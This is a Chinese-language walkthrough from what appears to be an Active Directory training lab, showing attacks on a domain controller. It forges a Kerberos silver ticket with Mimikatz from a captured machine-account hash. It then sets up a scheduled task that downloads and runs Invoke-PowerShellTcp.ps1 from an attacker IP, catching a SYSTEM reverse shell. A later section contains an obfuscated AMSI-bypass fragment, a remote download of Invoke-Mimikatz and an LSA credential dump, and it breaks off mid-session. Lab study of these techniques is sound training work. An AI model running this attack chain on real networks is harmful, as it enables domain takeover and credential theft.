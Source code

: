 ```

## HOST service
因为之前已经取得了DC服务器的NTML信息

```
DCORP-DC$ ： 126289c16302fb23b71ec09f0d3d5391
```

可以利用来制作 银票

执行命令
```
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:126289c16302fb23b71ec09f0d3d5391 /user:Administrator /ptt"'
```

执行完上面命令，在当前shell会有一个Administrator的session

验证银票：
```
ls \\dcorp-dc.dollarcorp.moneycorp.local\c$
```

新建一个定时任务，反弹dc上的一个shell回来。需要注意Invoke-PowerShellTcp.ps1里最后一行要加上
```
Power -Reverse -IPAddress 172.16.100.66 -Port 443
```
表示调用自己

### 制作定时任务：
```
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "User366" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.66/Invoke-PowerShellTcp.ps1''')'"
```

### 触发定时任务
```
schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "User366"
```

收到反弹shell
```
PS C:\ad> .\nc.exe -lnvp 443
listening on [any] 443 ...
connect to [172.16.100.66] from (UNKNOWN) [172.16.2.1] 64558
Windows PowerShell running as user DCORP-DC$ on DCORP-DC
Copyright (C) 2015 Microsoft Corporation. All rights reserved

PS C:\Windows\system32>whoami
nt authority\system
PS C:\Windows\system32> hostname
dcorp-dc
PS C:\Windows\system32>
```

## WMI 

wmi按照lab手册需要两张tiket，一张是host，另一张是RPCSS，但是我貌似执行下面其中一条就可以。。

HOST
```
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:126289c16302fb23b71ec09f0d3d5391 /user:Administrator /ptt"'

[dcorp-dc]: PS C:\Users\svcadmin\Documents> powershell -ep bypass
[dcorp-dc]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0
[dcorp-dc]: PS C:\Users\svcadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
[dcorp-dc]: PS C:\Users\svcadmin\Documents> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'